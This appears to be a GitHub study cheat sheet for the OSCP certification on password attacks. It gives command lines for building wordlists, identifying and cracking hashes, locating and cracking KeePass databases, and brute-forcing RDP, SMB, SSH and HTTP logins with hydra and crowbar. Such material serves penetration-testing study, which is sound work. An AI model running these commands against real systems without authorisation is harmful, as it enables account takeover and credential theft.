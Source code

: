 # OSCP Password Attacks Checklist

## Introduction

## Table of Contents

- [OSCP Password Attacks Checklist](#oscp-password-attacks-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [Generate World list](#generate-world-list)
    - [Rules](#rules)
  - [Cracking Password](#cracking-password)
    - [Identifying Hash Type](#identifying-hash-type)
    - [Hashing different file types for cracking with 2john](#hashing-different-file-types-for-cracking-with-2john)
  - [Brute Force Attacks](#brute-force-attacks)
    - [Password Manager](#password-manager)
    - [Hydra](#hydra)
    - [RDP - Crowbar](#rdp---crowbar)
    - [SMB - Hydra](#smb---hydra)
    - [SSH - Hydra](#ssh---hydra)
    - [HTTP POST Login Form - Hydra](#http-post-login-form---hydra)
    - [HTTP GET Login Form - Hydra](#http-get-login-form---hydra)

## Generate World list

Generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

Using Crunch:
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`

crunch min-len max-len charset
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### Rules
Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```

## Cracking Password

### Identifying Hash Type

```sh
hashid <hash>
```

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c) 


## Brute Force Attacks
### Password Manager
  Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

  Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

  Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

  Cracking
```
hashcat -m 13400 keepass.hash
```

### Hydra
```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP - Crowbar
```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB - Hydra
```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form - Hydra
```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```
